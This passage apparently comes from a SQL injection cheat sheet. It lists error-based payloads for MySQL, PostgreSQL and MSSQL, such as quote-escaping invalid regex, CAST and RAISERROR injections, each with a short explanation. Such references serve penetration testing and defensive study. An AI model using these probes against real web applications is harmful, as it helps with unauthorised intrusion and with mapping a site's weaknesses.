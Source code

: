 Using invalid hexadecimal values can cause errors.
```sql
' AND 0xG1 -- 
```

#### Subqueries in SELECT Clause

Use subqueries that return multiple rows in a single value context.
```sql
' AND (SELECT * FROM (SELECT 1,2) t) = 1 -- 
```

### PostgreSQL

#### Invalid Regular Expression

PostgreSQL's regex functions can be used incorrectly to cause errors.
```sql
' AND 'a' ~ 'b[' -- 
```

#### Invalid JSON Operations

Use JSON functions with invalid operations.
```sql
' AND jsonb_path_query_first('{"a":1}', '$.a') -- 
```

#### Recursive CTE

Use recursive Common Table Expressions (CTE) incorrectly.
```sql
' AND WITH RECURSIVE t AS (SELECT 1 UNION ALL SELECT 1 FROM t) SELECT * FROM t -- 
```

### MSSQL

#### Invalid XML Queries

MSSQL’s XML functions can generate errors when used with invalid XML.
```sql
'; DECLARE @xml XML; SET @xml = '<root><a></a><b></b></root>'; SELECT @xml.value('(/root/c)[1]', 'INT') --
```

#### Invalid Data Conversion

Conversion functions can cause errors when converting incompatible data types.
```sql
'; SELECT CAST('text' AS INT) --
```

#### SQL Injection with Error Functions

Use built-in error functions to generate errors.
```sql
'; RAISERROR('Error generated', 16, 1) --
```
